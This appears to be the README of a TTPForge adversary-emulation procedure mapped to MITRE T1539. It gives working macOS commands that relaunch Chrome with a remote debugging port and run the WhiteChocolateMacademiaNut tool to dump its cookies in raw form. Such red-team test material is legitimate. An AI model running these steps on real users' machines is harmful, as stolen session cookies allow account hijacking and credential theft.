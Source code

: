 # Extract Cookies with Chromium Browser via Remote Debugger Port

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP extracts cookies from Chromium-based browsers from a target system using the WhiteChocolateMacademiaNut tool. It currently works on macOS with Google Chrome, but can easily be extended to Microsoft Edge browser and to work on Linux (via apt) and Windows (via Chocolately).

## Pre-requisites

1. The executor can run as the current user on the target system.
2. The WhiteChocolateMacademiaNut tool must be accessible via a remote repository.
3. A Package manager is required such as Homebrew which will download and install the necessary tools such as Golang and Google Chrome.

## Examples

You can run the TTP using the following example:
```bash
ttpforge run forgearmory//credential-access/extract-cookies-from-chromium-browser/extract-cookies-from-chromium-browser.yaml
```

## Steps
1. **setup**: This step checks the current operating system. Currently, it checks if brew is installed. If brew is installed it will download and install Golang and Chrome.
2. **clone-whitecocolatemacademianut**: This step clones the WhiteChocolateMacademiaNut repository from GitHub. This will checkout commit b024f72f6350fb62853f06052a8431d20e76db7a. A cleanup step is also provided to remove the repository post-execution.
3. **build-whitecocolatemacademianut**: This step uses golang and build WhiteChocolateMacademiaNut allowing it to work on its respective operating system.
4. **run-whitecocolatemacademianut**: This step opens up Chrome and navigates to google.com and then the process is killed. Afterwards, Chrome is opened with remote debugger port on port 9222. WhiteChocolateMacademiaNut is then ran to steal the cookies. If the execution status is successful (0), the TTP exits with a success message. Otherwise, it exits with an error message.


## Manual Reproduction Steps

```
# Assuming Homebrew is present, install Golang and Google Chrome
brew install golang
brew install --cask google-chrome

# Clone and build WhiteChocolateMacademiaNut
git clone https://github.com/slyd0g/WhiteChocolateMacademiaNut
cd WhiteChocolateMacademiaNut
go mod init github.com/slyd0g/WhiteChocolateMacademiaNut
go get github.com/akamensky/argparse
go get golang.org/x/net/websocket
go build -o WhiteChocolateMacademiaNut

# Simulate browser activity
open -a "Google Chrome" "https://www.google.com" &
killall "Google Chrome"

# Open Chrome with remote debugger port
"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --remote-debugging-port=9222 --restore-last-session --remote-allow-origins=http://localhost/ &

# Run WhiteChocolateMacademiaNut
./WhiteChocolateMacademiaNut --port 9222 --dump cookies --format raw
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0006 Credential Access
- **Techniques**:
  - T1539 Steal Web Session Cookie
